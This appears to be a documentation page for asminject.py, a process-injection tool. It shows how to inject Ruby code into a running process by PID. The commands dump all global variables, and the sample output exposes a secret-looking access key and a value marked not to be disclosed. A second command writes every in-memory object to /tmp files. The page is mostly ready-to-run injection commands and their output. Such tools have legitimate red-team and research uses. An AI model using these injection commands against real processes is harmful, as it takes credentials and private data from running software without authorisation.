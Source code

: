 # asminject.py examples - Ruby
* [Write all global variables to standard out](#write-all-global-variables-to-standard-out)
* [Write a text representation of all objects in memory to disk](#write-a-text-representation-of-all-objects-in-memory-to-disk)

## Write all global variables to standard out

Use [the following Ruby code, which was borrowed from this Gist by Dmitry Yakimenko](https://gist.github.com/detunized/1620634)

```
global_variables.sort.each do |name|; puts "#{name}: #{eval "#{name}.inspect"}
```

e.g.

```
# python3 ./asminject.py 84955 execute_ruby_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --stop-method "slow" \
   --var rubycode "global_variables.sort.each do |name|; puts \\\"#{name}: #{eval \\\"#{name}.inspect\\\"}\\\"; 
end
```

Example output:

```
2022-06-07T13:50:06-07:00 - Loop count 10
2022-06-07T13:50:11-07:00 - Loop count 11
$!: nil
...omitted for brevity...
$$: 84955
...omitted for brevity...
$0: "practice/ruby_loop.rb"
...omitted for brevity...
$example_global_var_1: "AKIASADF9370235SUAS0"
$example_global_var_2: "This value should not be disclosed"

```

## Write a text representation of all objects in memory to disk

Use the following Ruby code:

```
$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open("/tmp/rubydump-#{$obj_dump_counter}.dat", "wb") { |file| file.write(e); $obj_dump_counter += 1; }}
```

e.g.

```
python3 ./asminject.py 163017 execute_ruby_code.s --arch x86-64 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var rubycode '$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open(\"/tmp/rubydump-#{$obj_dump_counter}.dat\", \"wb\") { |file| file.write(e); $obj_dump_counter += 1; }}'
```